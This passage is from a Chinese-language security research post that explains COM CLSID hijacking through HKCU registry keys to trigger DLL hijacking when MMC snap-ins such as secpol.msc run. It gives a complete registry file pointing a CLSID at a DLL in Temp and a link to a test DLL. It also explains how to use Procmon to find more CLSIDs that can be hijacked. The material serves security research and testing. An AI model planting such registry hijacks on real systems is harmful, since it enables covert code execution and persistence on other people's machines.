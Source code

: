 or

```
C:\Windows\System32\mmc.exe CompMgmt.msc
```

**注：**

该利用方法b33f@FuzzySecurity在DefCon25也介绍过，详情可见如下链接：

https://raw.githubusercontent.com/FuzzySecurity/DefCon25/master/Lab-Writeup.txt

### 4、{CB2F6723-AB3A-11D2-9C40-00C04FA30A3E}

注册表文件如下：

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Classes\CLSID\{CB2F6723-AB3A-11D2-9C40-00C04FA30A3E}]
@="Microsoft Common Language Runtime Meta Data"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{CB2F6723-AB3A-11D2-9C40-00C04FA30A3E}\InprocServer32]
@="C:\\Windows\\System32\\mscoree.dll"
"ThreadingModel"="Both"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{CB2F6723-AB3A-11D2-9C40-00C04FA30A3E}\InprocServer32\4.0.30319]
@="4.0.30319"
"ImplementedInThisVersion"=""

[HKEY_CURRENT_USER\Software\Classes\CLSID\{CB2F6723-AB3A-11D2-9C40-00C04FA30A3E}\ProgID]
@="CLRMetaData.CorRuntimeHost.2"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{CB2F6723-AB3A-11D2-9C40-00C04FA30A3E}\Server]
@="..\\..\\..\\..\\Temp\\test_unmanaged.dll"
```

此处的test_unmanaged.dll同1和2的不同，这里需要一个标准dll，实现dll劫持，dll下载地址;

https://raw.githubusercontent.com/3gstudent/test/master/calcexit.dll

执行secpol.msc触发dll劫持，测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-19/5-2.png)

## 0x04 补充

使用Procmon记录gpedit.msc的启动过程，寻找可被利用的系统CLSID，寻找特征如下：

打开注册表键值`HKCU:\Software\Classes\CLSID\{****}\InprocServer32`，返回`NAME NOT FOUND`

打开注册表键值`HKCR:\CLSID\{****}\InprocServer32`，返回`SUCCESS`

如下图，标记的几个CLSID符合要求

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-19/4-1.png)
